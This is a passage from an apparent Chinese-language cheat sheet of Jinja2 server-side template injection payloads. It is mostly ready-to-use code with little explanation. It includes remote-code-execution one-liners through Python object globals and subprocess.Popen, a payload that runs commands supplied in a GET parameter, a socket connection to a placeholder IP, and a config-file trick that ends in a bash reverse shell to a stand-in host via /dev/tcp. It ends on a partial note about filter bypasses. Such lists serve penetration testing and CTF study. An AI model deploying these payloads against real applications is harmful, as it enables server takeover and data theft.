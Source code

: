 使用[objectwalker](https://github.com/p0dalirius/objectwalker)我们可以找到从`lipsum`到`os`模块的路径。这是在Jinja2模板中实现RCE的最短已知载荷：

```python
{{ lipsum.__globals__["os"].popen('id').read() }}
```

#### 通过调用subprocess.Popen利用SSTI

:warning: 数字396会根据应用程序而变化。

```python
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

#### 无需猜测偏移量调用Popen利用SSTI

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

[@SecGus](https://twitter.com/SecGus/status/1198976764351066113)对载荷的简单修改，用于清理输出并方便命令输入。在另一个GET参数中包含一个名为"input"的变量，该变量包含您要运行的命令（例如：&input=ls）

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
```

#### 通过写入恶意配置文件利用SSTI

```python
# 恶意配置
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

# 加载恶意配置
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  

# 连接到恶意主机
{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}
```

### Jinja2 - 过滤器绕过

```python
request.__class__
request["__class__"]
```

绕过`_`
